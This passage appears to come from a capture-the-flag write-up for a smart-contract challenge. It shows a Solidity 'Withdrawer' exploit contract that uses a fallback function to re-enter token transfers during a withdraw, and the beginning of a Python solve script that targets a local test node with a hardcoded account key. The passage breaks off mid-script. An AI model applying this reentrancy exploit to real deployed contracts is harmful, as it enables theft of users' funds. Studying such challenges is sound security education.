 ```js
        }
    }
}
```

```js
contract Withdrawer {

    function exploit(address target, uint256 amount) external {
        (bool success, ) = target.call(abi.encodeWithSignature(
            "transfer(address,uint256)",
            target,
            1
        ));
        require(success);
        (success, ) = target.call(abi.encodeWithSignature(
            "withdraw(uint256)",
            amount
        ));
        require(success);
    }

    fallback() external payable {
        if (gasleft() > 2000) {
            msg.sender.call(abi.encodeWithSignature(
                "transfer(address,uint256)",
                msg.sender,
                1
            ));
        }
    }
}
```

??? note "solve.py"

    ```py
    from cheb3 import Connection
    from cheb3.utils import load_compiled, calc_create_address, encode_with_signature

    from time import sleep

    chall_abi, _ = load_compiled("Challenge.sol")
    arena_abi, _ = load_compiled("Arena.sol")
    exploiter_abi, exploiter_bin = load_compiled("PoC.t.sol", "Exploiter")
    withdrawer_abi, withdrawer_bin = load_compiled("PoC.t.sol", "Withdrawer")

    conn = Connection("http://localhost:8545")
    player = conn.account("<private-key>")
    agent = conn.account("0x2d8d57f5d5ada2ec30c91a3c8dfc64ef70798c68f24cacfa8fddfc2360fbaa95")
    setup = "<challenge-address>"

    challenge = conn.contract(player, abi=chall_abi, address=setup)
    arena_addr = challenge.caller.arena()
    arena = conn.contract(player, abi=arena_abi, address=arena_addr)
